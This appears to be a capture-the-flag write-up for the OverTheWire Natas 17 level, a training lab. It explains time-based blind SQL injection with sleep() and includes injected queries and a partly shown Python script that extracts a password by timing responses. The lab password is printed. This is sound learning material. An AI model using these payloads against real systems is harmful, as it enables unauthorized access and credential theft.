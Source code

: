 
natas17: `XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd`

# Natas 17

One word, painful.

This is the same idea as `natas15`, but this time the result of the query is not displayed to the web page (all the `echo` call are commented out). We need a way to make the query leak information similar to the message of `"This user exists."` in `natas15`.

We can achieve this by doing a time-based SQL injection. This means that we insert a `sleep` call to the SQL query. The query will look something like this:

```sql
SELECT * from users where username="natas18" and password like binary "abcd%" and sleep(5);-- "
```

We add in `sleep(5)` to our SQL query. When there exists a username of `natas18` (which you can verify by removing the `password` checking portion) and the password indeed starts with `abcd`, the query will sleep for 5 seconds. If any of the conditions in the query is wrong, the `sleep(5)` will not be executed, therefore the query will run in a much shorter amount of time. This can be leveraged to guess the password character by character, same as the idea from `natas15`. A Python script can check if the response time of the query is longer than some arbitrary amount. If the time of a certain query is indeed longer, we know for a fact that the characters we are guessing are correct.

We can reuse the same trick in `natas15` to narrow down the character set we need to guess. The SQL query for this should look something like:

```sql
SELECT * from users where username="natas16" and password like binary "%T%" and sleep(5); --"
```

This time, as the gimmick is to use the response time, sometimes the server might not respond quickly or there is congestion in the network, so setting the `sleep` time to be larger will help account for such issues. This can be painful, as setting the time too high will make the solving time really slow, but if we set the `sleep` time too short, the chances of time-related issues will be much higher. 

For me, as I was having some problems with getting the correct guessing character set, so I set the `sleep` time to be 5 seconds, to be extra safe. The guessing part I set the `sleep` time to be 1 second, as setting it too high will waste too much of my time. 

The code for all of the aforementioned operations: 

```python
import string 
import requests

target = 'http://natas17.natas.labs.overthewire.org'
creds = ('natas17', 'XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd')

alphanumeric = list(string.ascii_lowercase + string.ascii_uppercase + string.digits)
charset = ""
password = ""

# Guessing the charset, make the sleep time as long as possible to account for 
# some disruptions in the network
for char in alphanumeric:
    payload = 'natas18" and password like binary "%' + char + '%"' + ' and sleep(5);-- '
    r = requests.get(target, auth = creds, params = {"username": payload})
    
    print("Char: " + char + " - Time elapsed: " + str(r.elapsed.total_seconds()))
    if r.elapsed.total_seconds() > 3:
        charset += char 

print("The charset used is: " + charset)

# Guessing character by character, but this time we choose the character that
```